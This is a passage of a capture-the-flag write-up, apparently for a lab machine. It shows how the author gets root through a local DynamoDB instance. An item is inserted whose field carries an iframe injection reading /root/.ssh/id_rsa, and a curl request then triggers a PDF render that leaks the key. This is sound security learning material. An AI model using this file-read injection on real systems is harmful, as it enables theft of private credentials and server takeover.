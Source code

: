 ## Getting root

To start we need to create a table in the databse with the name of alerts. This is still working with the forwarded dynamoDB.

```bash
aws dynamodb create-table \
 --table-name alerts \
 --attribute-definitions \
 AttributeName=title,AttributeType=S \
 AttributeName=data,AttributeType=S \
 --key-schema \
 AttributeName=title,KeyType=HASH \
 AttributeName=data,KeyType=RANGE \
 --provisioned-throughput \
 ReadCapacityUnits=10,WriteCapacityUnits=5 \
 --endpoint-url http://localhost:4566
```

After we create the table we can add a row with a test case making sure the attack will work.

```bash
aws dynamodb put-item \
 --table-name alerts \
 --item '{
 "title":{"S": "Ransomware"},
 "data":{"S": "Test"}

 }' \
 --return-consumed-capacity TOTAL \
 --endpoint-url http://localhost:4566
```

In order to trigger the exploit we need to curl localhost and post ```action=get_alerts``` while we do. This will then create a pdf file in the files folder. Just download the file and open it to see the results.

Finally getting root's id_rsa.

```bash
aws dynamodb put-item  --table-name alerts  --item '{   
"title":{"S": "Ransomware"},                                                                                                       
"data":{"S": "<iframe src='/root/.ssh/id_rsa' width=100% height=100%</iframe>"}                                                    
  
}'  --return-consumed-capacity TOTAL  --endpoint-url http://localhost:4566
```

Follow this up with ```curl -d "action=get\_alerts" -X POST http://localhost:8000``` and get the PDF to get the result.